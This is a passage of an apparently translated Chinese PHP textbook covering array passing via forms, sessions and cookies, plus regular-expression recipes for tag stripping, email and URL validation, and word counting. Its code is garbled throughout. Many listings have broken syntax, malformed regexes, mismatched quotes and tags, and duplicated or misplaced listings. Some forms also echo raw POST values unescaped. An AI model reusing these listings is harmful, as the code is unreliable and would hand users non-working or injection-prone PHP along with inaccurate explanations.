"count.txt", "count_new.txt",
"counter.dat", "counter.php",
"create.php", "dat.db");
?>
<form action='second.php' method=post>
<?php
// 循环形成包含数组元素的隐藏字段。
foreach($filename as $name)
{
echo "<input type=hidden name=filename[] value=$name\">";
}
?>
<input type='submit' value='发送数组'>
</form>
```

现在，要在 `second.php` 页面查看数组，需要访问 `$_POST` 而不是 `$_GET` 全局数组（列表 II.1.14）。

### II.1.8. 输出全局数组

要在 `second.php` 页面上输出 `$_GET` 全局数组，如列表 II.1.11 所示：

#### 列表 II.1.11. $_GET 数组的输出

```php
<?php
echo "<pre>";
print_r($_GET);
echo "</pre>";
?>
```

#### 列表 II.1.14. 输出 $_POST 全局数组储的脚本

```php
<?php
echo "<pre>";
print_r(\$_POST);
echo "</pre>";
?>
```

## II.1.8. 使用 Session 会话传递数组

要初始化会，只需将 `session_start()` 函数的调用放在脚本的开头即可。之后，可以将任何数据放入 `$_SESSION` 超局变量数组中。存放在一个页面上的所有数据在另一个页面上可用。

### 列表 II.1.15. 使用会传递数组的脚本

```php
<?php
$filename = array("all.php", "auth.php",
"auth.txt", "base.txt",
"chat.html", "config.php",
"count.txt", "count_new.txt",
"counter.dat", "counter.php",
"create.php", "dat.db");

// 初始化会
session_start();
// 移除旧数据
unset($_SESSION['filename']);
// 循环形成包含数组元素的隐藏字段。
foreach($filename as $name) {
    $_SESSION['filename'][] = $name;
}
// 输出到 second.php 页面的链接
echo "<a href='second.php'>Go to second.php</a>";
?>
```

在 `second.php` 页面上访问 `$_SESSION` 超局变量数组，必须在脚本开头包含 `session_start()` 函数的调用（列表 II.1.16）。

### 列表 II.1.16. 输出 $_SESSION 超局变量数组转储内容的脚本

```php
<?php
// 初始化会
session_start();

echo "<pre>";
print_r($_SESSION);
echo "</pre>";
?>
```

存入会传递的数据仅对调用这些数据的用户可用。第三方用户在不知道唯一会传递标识符（SID）的情况下无法查看这些数据。数据存储在服务器上，服务器和客户端使用唯一的 SID 交换信息。SID 作为参数在地址字符串中传递或使用 cookie 传递。最后，会话 cookie 是常用的。由于唯一的 SID 是通过 cookie 传递的，因此使用会话的功能与使用超文本传输协议（HTTP）头部的功能相同，这意味着头部必须在文档正文之前发送。这意味着 `session_start()` 函数的调用必须在使用 `echo`、`print` 等函数向浏览器窗口输出任何内容或任何被 `<php` 和 `?>` 标签包围的符号之前进行。

## II.1.9. 使用 Cookie 传递数组

Cookie 是位于客户端计算机上的小型文本文件。存储在 cookie 中的某些信息是有限的，某些用户会在浏览器设置中禁用 cookie。然而，与会传递不同，cookie 的寿命是由开发者设置的。按照规定，会传递只持续到客户端退出浏览器或一个严格定义的间隔，通常该间隔不会超过几小时。cookie 使用 `setcookie()` 函数设置，之后 PHP 脚本提供了使用 `$_COOKIE` 超局变量数组访问保存值的可能性。遗憾的是，很难使用 `setcookie()` 函数设置数组值。因此，使用 `serialize()` 函数将数组打包成字符串是恰当的。稍后使用 `serialize()` 函数获得的字符串可以使用 `unserialize()` 函数展开为数组。

在传递多维数组时，`serialize()` 和 `unserialize()` 函数特别方便使用。这是因为传输减少为传递单个文本字符串。

### 列表 II.1.17. 使用 cookie 传递数组

```php
<?php
$filename = array("all.php", "auth.php",
    "auth.txt", "base.txt",
    "chat.html", "config.php",
    "count.txt", "count_new.txt",
    "counter.dat", "counter.php",
    "create.php", "dat.db");

// 将数组打包成字符串
$content = serialize($filename);
// 设置 cookie
// 这里，time() + 3600 是 cookie 的寿命
setcookie('filename', $content, time() + 3600);
// 输出到 second.php 页面。
echo "<a href='second.php'>Link to second.php</a></a>?>
```

现在，要获取 `$filename` 数组，需要从 cookie 中检索。该脚本显示在列表 II.1.18。

### 列表 II.1.18. 从 cookie 中检索数组

```php

<?php

// 从 cookie 中检索数组

$filename = unserialize($_COOKIE['filename']));

// 输出数组

echo "<pre>";

print_r($filename);

echo "</pre>";
```

在 cookie 中保存数据之前，所有特殊字符引号前面都有反斜杠。因此，使用 `unserialize()` 函数处理数组时需要去掉反斜杠字符。II.1.10. 日历

```php
echo "<td>.$week[$sj]."</font></td>";
else echo "<td>.$week[$sj].</td>";
}
else echo "<td>&nbsp;</td>";
}
echo "</tr>";
echo "</</table>";
?>
```

如列表 II.1.20 所示，为了实现这一点，只需交换遍历二维数组 `$week$` 的两个嵌套循环的位置即可。


要输出任意月份的日历，只需将该月份的任意日期作为 `date()` 函数的第二个参数传递。日期必须以自 GMT 时间 1970 年 1 月 1 日午夜以来秒数的形式传递。

## II.1.11. 垂直输出字符串

可以使用多种方法垂直输出字符串——例如，如列表 II.1.21 所示使用 `str_split()` 函数。

### 列表 II.1.21. 使用 str_split() 函数

```php
<?php
$str = "Hello world!";
$arr = str_split($str);
foreach($arr as $char) echo "$char<br>";
?>
```

使用垂直输出字符串的第二种方法，可以将字符串视为字符数组，其中索引 0 对应第一个字符。

### 列表 II.1.22. 垂直输出的替代方法

```php
<?php
$str = "Hello world!";
for($i = 0; $i < strlen($str); $i++) echo $str[$i].<br>";
?>
```

## II.1.12. 以货币格式显示数字

以货币格式显示数字最简单的方法是使用 `number_format()` 函数（列表 II.1.23）。

### 列表 II.1.23. 使用 number_format() 函数

```php
<?php
echo number_format(18439529234.5678, 2, '.', '');
?>
```

## II.1.13. 替换 bbCode 字符

最简单的方法是用 II.1.24 所示的典型 `str_replace()` 函数来替换 bbCode 字符。

### 列表 II.1.24. 使用 str_replace() 函数

```php
<?php
$text = 'This is [b]bold[/b] text';
$text = str_replace("[b]", "<b>", $text);
$text = str_replace("[/b]", "</b>", $text);
echo $text;
?>
```

在这种情况下，所有字符都被替换了，包括包含在标签中的字符（图 II.1.3）。



118 第 II 部分：解决方案

为了防止未闭合标签被解析，必须使用更复杂的文本处理方法。例如，考虑列表 II.1.25 所示的脚本。

### 列表 II.1.25. 仅处理闭合标签的脚本

```php
<?php
// 源字符串
$text = 'This is [b]bold[/b] text';
// 结果字符串
$result = "";
// 辅助变量
$lastocc = 0;
$sndocc = 1;
while($sndocc) {
// 粗体片段开始
$fstocc = strpos($text, "[b]", $lastocc);
// 粗体片段结束
$sndocc += strpos($text, "[/b]", $fstocc);
if(($fstocc >= 0 && $sndocc > 0 && $lastocc > 0) ||
    ($fstocc == 0 && $sndocc > 0 && $lastocc == 0)) {
// 将 [b] 标签之前的片段放入 $result 
$result .= substr($text, $lastocc, $fstocc);
// 粗体片段
$result .= "<b>".substr($text,
$fstocc - 3,
$sndocc - 3)."[/b>";
$lastocc = $sndocc + 4;
} else {
// 处理剩余字符串
$result .= substr($text, $lastocc));
// 退出循环
break;
}
echo $result;
?>
```

脚本的操作结果如图 II.1.4 所示。



**图 II.1.4.** 这一次，只有被 [/b] 标签闭合的 [b] 标签会被解析。

## II.2: 正则表达式


### II.2.1. 删除标签

可以使用正则表达式配合 `preg_replace()` 函数删除 HTML 标签。该函数的通用格式如下：

```
preg_replace (pattern, replacement, subject [, limit])
```


函数在 `subject` 字符串中搜索匹配 `pattern` 正则表达式的子字符串，并用 `replacement` 参数进行替换。可选的 `limit` 参数如果不设置，则替换所有匹配项。`replacement` 参数可以包含数字类型的引用；该类型的引用将被匹配正则表达式的括号部分替换。`n` 参数可以取 0 到 99 的值；`\0` 对应于整个模式。如果找到了匹配模式的子字符串，函数返回修改后的 `subject`；否则，返回字符串的原始值。`preg_replace()` 函数的前三个参数可以是一维数组。处理带有字符串键的数组时，按照它们在数组中的顺序引用。如果 `replacement` 数组的元素多于 `pattern` 数组，`preg_replace()` 会从两个数组中顺序提取元素并用于搜索和替换。如果 `pattern` 参数是数组而 `replacement` 参数是字符串，则目标字符串与 `pattern` 数组的每个元素进行比较，并将任何匹配项替换为 `replacement` 字符串。也就是说，`pattern` 数组的每个元素被用作模式，替换字符串是固定的。pattern 为字符串且 replacement 为数组的选项没有意义。

兼容 Perl 的正则表达式必须包含在分隔符。在 II.2.1 中，使用单引号作为分隔符。除了字母数字或反斜杠外的任何符号都可以作为分隔符。正则表达式内部使用的分隔符必须由转义字符反斜杠引导。结束分隔符可以是影响整个正则表达式的修饰符。`i` 修饰符指定正则表达式不区分大小写；`s` 修饰符意味着正则表达式跨越多行。


### II.2.1. 从 HTML 页面删除标签

```php
<?php
// 提取 index.html 文件的内容
$content = file_get_contents("index.html");

// 模式数组
$search = array("<script[^>]*?</script>",
    "<<\/!\*?[^<]*?>",
    "([\r\n\s]+",
    "quot|#34;", "i",
    "amp|#38;", "i",
    "lt|#60;", "i",
    "gt|#62;", "i",
    "nbsp|#160;", "i",
    "iexcl|#161;", "i",
    "cent|#162;", "i",
    "pound|#163;", "i",
    "copy|#169;", "i",
    "&#\(d+);", "e");

// 替换数组
$replace = array(
    "",
    "\\",
    "",
    "&",
    "<",
    ">",
    "",
    chr(161),
    chr(162),
    chr(163),
    chr(169),
    "chr(\\1)");

// 删除标签并在浏览器窗口中显示
echo preg_replace($search, $replace, $content);
?>
```

如果必须删除所有 HTML 标签，通常使用 `strip_tags()` 函数是最方便的（列表 II.2.2）。

> 注意 `strip_tags()` 函数不应删除的标签可以在可选的第二个参数中指定。

### 列表 II.2.2. 使用 strip_tags() 函数

```php
<?php
// 提取 index.htm 文件的内容
$content = file_get_contents("index.htm");

// 删除标签并在浏览器窗口中显示
echo strip_tags($content);
?>
```

136 第 II.2 章：正则表达式

然而，`strip_tags()` 函数并不总是方便使用，因为它会将删除的标签替换为空格；此外，常见的 HTML 实体编码（如 `&nbsp;`）保持不变。

## II.2.3. 提取 HTML 页面标题

可以使用 `preg_match()` 正则表达式函数提取 HTML 页面的标题，该函数的语法如下：

```
int preg_match(string pattern, array matches [, int flags, , int offset))
```

函数在 `subject` 字符串中搜索匹配 `pattern` 正则表达式。如果指定了可选的 `matches` 数组，则搜索结果将保存在其中。数组的 `$matches[0]` 元素将保存匹配的字符串

根据整个模式，$matches[1] 元素将包含匹配第一组括号内子模式的字符串，$matches[2] 元素将包含匹配第二组括号内子模式的字符串，依此类推。返回的 $matches 数组的格式由可选的标志参数控制。当此参数设置为 PREG_OFFSET_CAPTURE 时，对于每个找到的匹配项，函数返回一个数组，其中第 0 个元素是匹配的字符串，第 1 个元素是其在字符串中的偏移量。搜索从字符串开始从左到右。可以使用可选的 offset 参数指定备起始位置。preg_match() 函数在未找到匹配项时返回 0，在找到匹配项时返回 1。

上一节使用的技术无法提取页面标题，因为它可能包含角括号。因此，必须使用 `<title>` 和 `</title>` 标签，并用 U 修饰符控制“贪婪性”。默认情况下，正则表达式是“贪婪的”；也就是说，它们从所有找到的匹配中返回最长匹配。U 修饰符反转这种“贪婪性”，返回所有选择中最短的匹配。

## 列表 II.2.4. 提取 HTML 页面标题

```php
<?php
// 提取 index.html文件的内容
$content = file_get_contents("index.html");

// 正则表达式
$pattern = "<title>(.*)</title>|si";

// 提取 HTML 页面的标题
if (preg_match($pattern, $content, $out)) {
    echo $out[1];
}
?>
```

正则表达式的贪婪性也可以通过 `*` 序列使用；也就是说，列表 II.2.4 中的正则表达式可以重写为 `<title>(.*?)</title>|si`。`*` 序列允许局部控制贪婪性，例如当整个正则表达式需要是贪婪的但其某部分不是贪婪的时。

## 第 II.2 章：正则表达式 125 页

## II.2.4. 将 MySQL 日期格式转换为日历格式

可以使用列表 II.2.5 所示的脚本将日期格式转换为日历格式。

列表 II.2.5. 从 YYYY-MM-DD 格式转换为 DD.MM.YYYY 格式

`preg_match()` 函数产生的搜索结果可以保存在可选第三参数指定的数组中。第 0 个数组元素将包含对整个正则表达式的匹配；第一个数组元素将包含对第一组括号内正则表达式的匹配（年份）；第二个数组元素将包含对第二组括号内正则表达式的匹配（月份）；第三个数组元素将包含对第三组括号内正则表达式的匹配（日期）。

## II.2.5. 验证电子邮件地址格式

假设地址格式应为 `something@server.com`。此外，地址由 `@` 字符分隔成两个部分；这些是用户名和域名。用户名可以包含大写和小写字母、数字、下划线、点和连字符。为了检查用户名和域名之间的分隔符，必须在正则表达式中添加 `@` 字符。用户名一样，域名可以使用大写和小写字母、数字、下划线、点和连字符。因此，可以构造以下用于验证电子邮件地址用户名和域名格式是否适当的正则表达式：

```
[0-9a-z_]+@[0-9a-z_^\.]+
```

## 第二部分：解决方案

为了检查一级域名（例如 .com、.ed 或 .gov），必须添加以下正则表达式：

\.[a-z]{2,6}

你应该意识到最近创建了几个一级域名，如 .info 和 .travel。三字母的正则表达式无法适用于这些新的一级域名；必须使用二到六个字母组成的正则表达式来检查一级域名。

点号 `.` 在正则表达式中表示任何字符；因此，正则表达式中表示匹配目标字符串中点的点号，必须用反斜杠进行转义。

用于确认电子邮件地址格式规则的组合正则表达式如下：

```
|[0-9a-z_]+\@[0-9a-z_]+\.[a-z]{2,6}|
```

`i` 修饰符告诉解释器在搜索目标字符串时忽略大小写。

如果目标字符串包含的唯一信息是电子邮件地址，则必须使用 `^` 和 `$` 字符将正则表达式锚定在字符串的开头和结尾。生成的表达式如下：

```
^[0-9a-z_]+\@[0-9a-z_]+\.[a-z]{2,6}$
```

验证电子邮件格式的完整代码可能所示列表 II.2.6。

## II.2.6. 检查电子邮件格式

```php
<form method=post>
<input size=60 type=text name=value=<?php $_POST['name']; ?>>
<input type=submit value='Check'>
</form><br>
<?php
// HTML 表单处理程序
if(isset($_POST['name']))
{
if(preg_match("^[0-9a-z_]+\@[0-9a-z_]+\.[a-z]{2,6}$",
$_POST['name']))
{
  echo "The email address format is correct.";
} else {
  echo "The email address format is wrong.";
}
?>
```

## 第 II.2 章：正则表达式 127 页

## II.2.6. 验证 URL

构造一个对应所有可能 URL 的正则表达式并不容易。通常会在正则表达式的复杂性与其表示 URL 格式的准确性之间寻求折中方案。

在构造所需的正则表达式时，假设 URL 格式如下：

```
http://host/path/
```

带有不同扩展名（例如 .html,.php,.pl 或 .cgi）的名称是 URL 的可选部分。文件名后面可能跟着可选参数。

满足这些 URL 格式条件的正则表达式可能是：

```
#^((http://)?[-a-zZ-9_\.]+)|([-a-zZ-9_]+))+\.(html|php|pl|cgi))?\n([-a-zZ-9_:&&?+=!/\-\*%$]+)+\#i
```

使用该正则表达式的脚本所示列表 II.2.7。

## 列表 II.2.7. 检查 URL 格式

```php
<form method=post>
<input size=60 type=text name=name value=<?php $_POST['name']; ?>>
<input type=submit value='Check'>
</form><br>
<?php
// HTML 表单处理程序
if(isset($_POST['name'])) {"
```

## 128 页 第二部分：解决方案

```php
$Pattern = "^##(http://)?[-a-z0-9_\.]+\(([-a-z0-9_]+\]+\.(html|php|pl|cgi))?\([-a-z0-9_@&\;=\=\-!/\*\$]+)?$#i";
if (preg_match($Pattern, $_POST['name']))
{
    echo "The URL format is correct.";
}
else
{
    echo "The URL format is incorrect.";
}
?>
```

## 11.2.7. 将文本 URL 转换为链接

可以使用 II.2.6 节中考虑的表达式将文本 URL 转换为超链接。完整代码所示列表 II.2.8。

## 11.2.8. 将文本 URL 转换为链接

```php
<?php
// 提取 index.html文件的内容
$content = file_get_contents("index.html");

// 正则表达式
$pattern = "<title>(.*)</title>|si";

// 提取 HTML 页面的标题
if (preg_match($pattern, $content, $out)) {
    echo $out[1];
}
?>
```

## 第 II.2 章：正则表达式 129 页

## II.2.8. 验证输入

验证输入符合某些要求是一项重要任务。Web 开发者通常认为向字段中输入的将是数字。然而，此类字段也可以输入文本。这可能在最好的情况下执行失败，在最坏的情况下导致破坏（见第 I.5 和 II.5 节）。

整数可以很容易检查：为此目的有一个特殊类 `\d`。此外，正则表达式必须用 `^` 和 `$` 字符锚定在目标字符串的开头和结尾。这样做会导致输入一个数字后可以输入任何内容：正则表达式将找到该数字并忽略其他内容。检查字符串为整数的正则表达式如下：

```
^\d]*$
```

检查浮点的正则表达式有三部分。检查整数部分与检查整数的表达式相同：`[\d]*`。点由点字符表示，必须用反斜杠进行转义。检查小数部分可以用 `\.\d]*` 描述。将这些片段组合产生检查浮点数的正则表达式：`^[\d]*\.\d]*$`。最后的处理考虑了整数和小数之间分隔符的不同格式，这两者可以使用点（例如 23.56）和逗号（例如 23,56）。对应的正则表达式是：`^[\d]*[.,][d]*$`。然而，此表达式将无法匹配整数。为了这个问题，必须在 `[.,]` 类之后插入标记字符。最终表达式如下：

```
^[\d]*[.,][]?\d]*$
```

因此，解决方案所示列表 II.2.9。

## 列表 II.2.9. 验证数字输入

```php
<form method = post>
Quantity <input size=60 type=text-number
value<=?= $_POST['number']; ?> ?><br>
Price <input size=60 type=text-price
value<=?= $_POST['price']; ?> ?><br>
<input type = submit value = 'Verify'>
```

```php
</form><br>
<?php
// HTML 表单处理器
if (isset($_POST['number']) && isset($_POST['price'])) {
    if (!preg_match("/^\d+$/", $_POST['number'])) {
        exit("物品数量格式错误。");
    }
    if (!preg_match("/^\d+([.,.])?(\d+)?/", $_POST['price'])) {
        exit("价格格式错误。");
    }
    echo number_format($_POST['number']*$_POST['price'], 2, '.', '');
}
?>
```

## II.2.9. 转换大小写

必须更改字母大小写的问题是应用 `preg_replace_callback()` 函数的理想候选对象。该函数与 `preg_replace()` 函数相似，不同在于实际的替换是由回调函数执行的。该函数的语法如下：

```
mixed preg_replace_callback(mixed pattern, callback,
mixed subject [, int limit])
```

该函数没有使用 `preg_replace()` 函数中的替换参数，而是指定了一个回调函数。该函数接收找到的匹配项数组，并返回替换字符串。

## II.2.10. 转换文本大小写

```php
<?php
$text = "PROGRAMMING is an ART worth devoting your entire LIFE to.";
$text = preg_replace_callback(
    "/[A-Z]{2,}/",
    "replace_text",
    $text
);
```

```php
echo $text;
function replace_text($matches)
{
  return substr($matches[0], 1).strtolower(substr($matches[0], 1));
}
```

正则表达式 `[A-Z]{2,}` 搜索所有连续两个或多个大写字母的单词。这些单词将被 `replace_text()` 回调函数返回的结果所替换。该函数的参数是一个匹配字符串的数组，数组中的第一个元素包含正则表达式中连续括号括号的匹配项。该函数保持每个匹配字符串的第一个字母不变，并借助 `strtolower()` 函数将其余字母转换为小写。

PHP 有一个特殊的函数可以将单词的第一个字母转换为大写，并将其其余部分转换为小写：`ucfirst()`。然而，在大多数情况下，它无法正常地处理国家语言字符；因此，为了在所有服务器上进行无故障操作，列表 II.2.10 中提供的解决方案更为佳。


## II.2.10. 拆分长字符串

长字符串（如 II.2.8 节中的问题）可以使用使用自定义回调函数的 `preg_replace_callback()` 函数处理（列表 II.2.11）。

## II.2.11. 拆分长字符串


```php
<?php
$text = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa";

$text = preg_replace_callback(
  "!(\w{25,})",
  "split_text",
  $text
);

function split_text($matches)
{
return wordwrap($matches[1], 25, '<br>', 1);
}
```

```php
echo $text;
?>
```

`wordwrap()`函数将字符串（通过第一个参数传递）拆分为长度由数字（通过第二个参数传递）指定的子字符串。第三个参数允许指定换行符。如果最后一个参数设置为1，主体字符串将会在指定的长度精确断开，这意味着如果换行发生在单词中间，它将在该处断开，而不是最近的空格字符处。

如果没有正则表达式，`wordwrap()`函数将非常不灵活，因为它旨在用于处理文本而不是单个单词。


## 2.11.11. 将文本拆分为句子

`preg_split()`函数根据正则表达式将提供的文本拆分为句子。它具有以下语法：

```
array preg_split (string pattern, string subject
    , int limit (, int flags))
```

该函数返回一个数组，其中包含通过匹配模式模板的句子边界拆分主体字符串得到的子字符串。

可选的`limit`参数如果设置，函数将返回其指定的子字符串数量；如果未设置该参数或设置为-1，则函数返回的子字符串数量不受限制。最后一个参数`flags`可以是以下标志的任何组合（使用`|`运算符分隔）：

- `PREG_SPLIT_NO_EMPTY` — 如果设置，函数返回非空子字符串。
- `PREG_SPLIT_DELIM_CAPTURE` — 如果设置，分隔符模式中的括号表达式也将从主体字符串中提取并返回。
- `PREG_SPLIT_OFFSET_CAPTURE` — 如果设置，将返回找到的每个字符串在主体字符串中的位置。该标志的数据返回格式与其他标志不同：对于每个匹配项，返回一个数组，其第0个元素包含找到的子字符串，第一个元素包含偏移量。

用于定位句子结束并产生最佳结果的正则表达式是句号后跟空格字符：`\. [\s]+`。HTML标签可能会干扰分割操作；因此，请使用II.2.1节中的解决方案从文本中移除它们。解决该问题的完整代码见列表II.2.12。

## II.2.12. 将文本拆分为句子

```php
<?php
// 获取 index.html 内容
$search = array("<script>.*?</script>",si");

// 替换数组
$replace = array("",
    "",
    "/>",
    ">",
    "",
    ".html");

// 去除标签并在浏览器中显示文本
$content = preg_replace($search, $replace, $content);

// 将内容拆分为句子
$text = preg_split("/[.!?][\s]+/", $content);
echo "<pre>";
print_r($text);
echo "</pre>";
?>
```

脚本操作的结果见图II.2.1。然而，将文本拆分为句子只是中间步骤；现在必须将每个句子拆分为单个单词。



> 图 II.2.1. 文本数组的内容

## 将文本转换为二维数组

一维数组`$text`可以使用列表II.2.13所示的脚本转换为每个元素包含单个单词的二维数组。

### 列表 II.2.13. 将 `$text` 数组转换为二维数组

```php
<?php
for($i = 0; $i < count($text); $i++) {
$text[$i] = preg_split("/-\s+/",$text[$i]);
}
echo "<pre>";
print_r($text);
echo "</pre>";
?>
```

> 图 II.2.2. 二维数组 `$text` 的内容



## II.2.12. 单词计数

可以使用`preg_match_all()`函数计算单词，该函数与`preg_match()`函数不同，它会查找主体字符串中正则表达式的所有匹配项。该函数的语法如下：

```
int preg_match_all(string pattern, string subject, array matches
[, int flags, int offset])
```

函数在主体字符串中查找模式正则表达式的所有匹配项，并根据`flags`参数组合确定的顺序将结果放入`matches`数组中。与

## 第二部分：解决方案

在`preg_match()`函数中，可以指定在主题字符串中搜索的起始位置。

连续搜索不会从主题字符串的开头开始，而是从上一次匹配的位置开始。

`flags`参数可以是以下任何标记的组合：

- `PREG_PATTERN_ORDER` — 如果设置，结果将按照以下方式排序：`$matches[0]`元素包含所有完整模式匹配项的数组，`$matches[1]`元素持有第一个括号内正则表达式的匹配项数组，`$matches[2]`带有第二个表达式的匹配项数组，以此此类推。如果为给定的正则表达式找到了三个匹配项，则模式的最后一次匹配将存储在`$matches[0][3]`数组元素中，而完整匹配中第一个括号内正则表达式的匹配项将存储在`$matches[1][3]`数组元素中。
- `PREG_OFFSET_CAPTURE` — 如果设置，结果将按照以下方式排序：`$matches[0]`数组元素包含第一组匹配项，`$matches[1]`数组包含第二组匹配项，以此此类推。在这种情况下，`$matches[0]`数组持有第一组匹配项：`$matches[0][0]`元素包含整个正则表达式的第一次匹配，`$matches[0][1]`元素持有第一个括号内正则表达式的匹配项，`$matches[0][2]`元素持有第二个括号内正则表达式的匹配项，以此此类推。同样地，`$matches[1]`数组持有第二组匹配项，对于每个找到的匹配项组都如此操作。
- `PREG_SPLIT_OFFSET_CAPTURE` — 如果设置，将返回每个找到的子字符串在主题字符串中的位置。该标记的数据以不同的格式返回：对于每个匹配，返回一个数组，其中第0个元素包含子字符串，第一个元素包含偏移量。

`preg_match_all()`函数返回找到的匹配数量（可能为空），或者在执行期间发生错误时返回`FALSE`。

要解决原始问题，必须从文本中删除所有多的HTML标签。单字母单词的正则表达式是`\b[w]{1}\b`。`b`序列表示边界；除非另有指定，正则表达式`\[w]{1}`将对应任何单词的每个字母。

## 第 II.2 节：正则表达式 137

### 列表 II.2.14. 统计单字母单词

```php
<?php
// 提取 index.htm 文件的内容
$content = file_get_contents("index.htm");
// 模式数组
$search = array('<script[^>]*>.*?</script>', 'si');
```

## 138 第二部分：解决方案

```php
preg_match_all("\\b[w]{1}\\b", $content, $out, PREG_PATTERN_ORDER);

// 显示结果
echo "The number of one-letter words is: ".count($out[0])."<br>";
echo "<pre>";
print_r($out[0]);
echo "</pre>";
?>
```

脚本运行的结果如图II.2.3所示。



> 图 II.2.3. 单字母单词列表

列表II.2.14所示的解决方案可以推广到统计从两个字母到十字母的单词。这可以使用列表II.2.15所示的循环来实现。

### 列表 II.2.15. 统计不同字母数量的单词

```php
<?php
for($i = 1; $i <= 10; $i++)
{
    // 统计单字母单词
    preg_match_all("\\b[w].{$i}\\b", $content, $out, PREG_PATTERN_ORDER);
    print "The number of $i-letter words is: ".count($out[0])."<br>";
}
?>
```

## 第 II.2 节：正则表达式 139

脚本运行的结果如图II.2.4所示。



图 II.2.4. 列表 II.2.15 脚本的结果

### II.2.13. 解释 bbCode 标签

可以使用列表II.2.16所示的脚本将标签周围的方括号替换为角括号。

在正则表达式中使用贪婪修饰符`U`是重要的，这使它们对第一个结束标签做出反应，而不是最后一个。该修饰符使表达式对起始和结束标签之间的换行符做出反应，确保标签被正确解释。

### 列表 II.2.16. 解释 bbCode 标签

```php
<?php
// 提取 bb.txt 文件的内容
$content = file_get_contents("bb.txt");
```

```php
// 将 [i] 替换为 <i>并将 [/] 替换为 </i>
$content = preg_replace("#\\\[i\](.+)\\[/i\]#", "<i>$1</</i>", $content);
```

## 140 第二部分：解决方案

```php
// 将 [b] 替换为 <b>并将 [/b] 替换为 </body>
$content = preg_replace("\\\[b\](.+)\\\/b\]#isu", '<b>$1</b>', $content);
// 将 [code] 替换为 <code>并将 [/code] 替换为 </code>
$content = preg_replace("\\\[code\](.+)\\\/code\]#isu",
      '<code>pre$1</pre></code>',
      $content);
// 处理标签 [url] link [/url]
